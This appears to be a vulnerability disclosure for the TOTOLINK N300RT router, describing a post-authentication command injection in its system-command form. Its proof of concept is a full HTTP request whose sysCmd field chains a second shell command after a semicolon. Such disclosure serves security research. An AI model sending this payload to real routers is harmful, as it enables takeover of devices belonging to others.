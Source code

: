## TOTOLINK-N300RT
Product:TOTOLINK-N300RT
Firmware Version: TOTOLINK-N300RT  V3.2.4-B20180730.0906
Manufacturer's website information：http://www.totolink.cn/

### description
TOTOLINK-N300RT has a post-auth rce due to the incorrect access control vulnerability, attackers can bypass front-end security restrictions by using burpsuite or smth like that

POC：
```
POST /boafrm/formSysCmd HTTP/1.1
Host: 192.168.1.1:80
Content-Length: 101
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.1:80
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0
Safari/537.36
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,ima
ge/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.1/syscmd.htm
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
sysCmdselect=5&sysCmdselects=0&apply=Run+Command&sysCmd=p
ing+8.8.8.8;ls /etc&submit-url=%2Fsyscmd.htm&msg=
```

video:

https://github.com/xieqiang11/security_research/assets/149745918/471c1696-2a8f-4640-b739-cef4b9d3d516
